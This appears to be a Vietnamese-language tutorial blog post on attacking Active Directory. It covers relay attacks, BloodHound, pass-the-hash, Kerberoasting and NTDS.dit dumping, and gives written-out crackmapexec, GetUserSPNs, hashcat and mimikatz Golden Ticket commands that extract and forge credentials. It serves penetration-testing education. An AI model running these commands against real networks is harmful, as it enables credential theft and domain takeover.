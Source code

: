 ```yaml
---
title: "Active Directory recon and exploit"
date: "2024-11-19"
excerpt: "Some technique and tool to hack AD."
featured: "/images/test3.jpg"
---
```


# Markdown Test

This document includes **all common Markdown features** to test the rendering system.

---

# Hacking Active Directory: From Reconnaissance to Exploitation - Part 1 + 2

## Step 1: Lấy credentials

__LLMNR ATTACK__: 
Được dùng trong window để phân tải tên. 
Tấn công: dùng Responder tool để bắt được credentials.
Khi lấy được NTLM hash thì dùng hashcat để crack.

__SMBRelay ATTACK__
Là kiểu tấn công mạng, attacker có thể chặn và chuyển tiếp các yêu cầu xác thực và phản hồi giữa client và server.
Là phương án dự phòng cho LLMNR attack khi hash được captured không thể bẻ khóa.

__IPV6 DNS Takeover ATTACK__
Tấn công chiếm quyền DNS IPv6 liên quan đến kẻ tấn công khai thác lỗ hổng trong cấu hình DNS IPv6 để chặn và thao túng các truy vấn DNS. => Đưa địa chỉ IPv6 giả mạo, tấn công chuyển hướng DNS sang các máy chủ độc hại => cho phép nghe lén, thay đổi và chuyển hướng lưu lượng mạng.

## Step 2: Enumerating AD

__Bloodhound__

Dùng để ánh xạ và phân tích Directory (AD) environments.

Giúp nhận dạng các mối quan hệ, quyền hạn, các con đường tấn công ẩn trên AD domain bằng cách đưa ra cách user, group và máy tính được kết nối với nhau.

Bloodhound sử dụng cấu trúc dữ liệu dựa vào đồ thị của Neo4j để lưu trữ, truy xuất hiệu quả, hình dung ra mối quan hệ trong AD.

![image](https://hackmd.io/_uploads/r1xV7RKGJl.png)

![image](https://hackmd.io/_uploads/S1_NQ0tzkl.png)

__MMC (Microsoft Management console)__

Cho phép quản lý nhiều thành phần khác nhau trong một giao diện duy nhất và quản lý từ xa.

![image](https://hackmd.io/_uploads/Bk33QCtz1g.png)

## Step 3: Moving Laterally and Exploiting

### PASS ATTACK

__Pass-the-Password__

Kĩ thuật dựa trên việc bắt và sử dụng các plaintext password để xác thực giữa nhiều thiết bị. Nếu mật khẩu người dùng được sử dụng lại trên nhiều hệ thống => cho phép attacker chiếm quyền điều khiển toàn bộ hệ thống.

__Pass-the-Hash__

Kĩ thuật đề cập đến việc bắt các mật khẩu đã được mã hóa (NTLM hashes) và sử dụng nó mà không cần crack => có thể mạo danh được người dùng khác, truy cập vào tài nguyên với quyền của user bị mạo danh.

### Attack

Sử dụng tool `crackmapexec`

Example:

```cmd
crackmapexec smb 192.168.134.0/24 -u username -d ADPENTT.local -p plaintext_pass
# OR:
crackmapexec smb 192.168.134.0/24 -u username -H hash_of_pass
```


### KERBEROASTING

![image](https://hackmd.io/_uploads/r1NQVqKMyl.png)

Để lấy TGS, sử dụng tool `GetUserSPNs.py`

```
GetUserSPNs.py ADPENTT.local/username:password -dc-ip DC_iP_ADDR -request 
```

Extract TGS hash:
```
hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt 
```

### Mạo danh token

Token là dữ liệu có thể bao gồm dữ liệu người dùng, quyền, thành viên nhóm => để kiểm soát quyền truy cập và hành động.

=> Đề cập đến việc hacker lấy được token của người dùng hợp lệ.
Token có 2 loại:
- Delegate Token
- Impersonate Token

Attack: sử dụng `use exploit/windows/smb/psexec` của Metaploit

### DUMPING NTDS.dit

NTDS (NT Directory Services): là file database của AD - `ntds.dit` - lưu trữ các thông tin về user, group,...

Attack: dùng tool: `secretsdump.py`

## Step 4: Persisting in Active Directory

### GOLDEN TICKET ATTACK

Là cuộc tấn công mà hacker lấy được TGT ticket thông qua mã băm mật khẩu của người dùng.

Sử dụng tool tấn công: `mimikatz`

```terminal
privilege::debug 
#to grants the Mimikatz tool the necessary permissions to perform advanced tasks that are typically restricted to administrators or system processes.
lsadump::lsa /inject /name:krbtgt
```

Sau khi lấy được hash password của `krbtgt`, dùng lệnh tiếp theo

```
kerberos::golden  /User:Administrator /domain:adpentt.local /sid:S-1-5-21-527687875-826702742-2417181359 /krbtgt:590d534c15c13980a6d41c34d8ab9f03 /id:500 /ptt
```

Sau đó sử dụng `misc::cmd`

Ta có thể dùng `PsExec.exe` để truy cập tới cmd của thiết bị được chỉ định. 

![image](https://hackmd.io/_uploads/S1mLvJ5Mke.png)

![image](https://hackmd.io/_uploads/HycNwy9Mkg.png)

